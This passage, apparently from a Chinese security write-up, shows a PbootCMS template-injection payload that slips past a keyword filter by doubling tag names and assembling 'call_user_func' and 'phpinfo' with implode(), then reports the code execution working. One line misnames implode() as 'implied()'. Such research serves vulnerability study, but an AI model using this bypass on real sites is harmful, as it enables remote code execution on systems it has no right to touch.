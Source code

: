 ![succeed_to_skip_the_filter_210](../img/succeed_to_skip_the_filter_210.jpg)

> 函数 phpinfo() 可以显示出 php 所有相关信息。是排查配置 php 是否出错的主要方式之一。
>
> 函数 implied() 可以将数组元素拼接成字符串。

```shell
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```

执行 `phpinfo()` 进行测试，测试成功！

![phpinfo_success_211](../img/phpinfo_success_211.jpg)
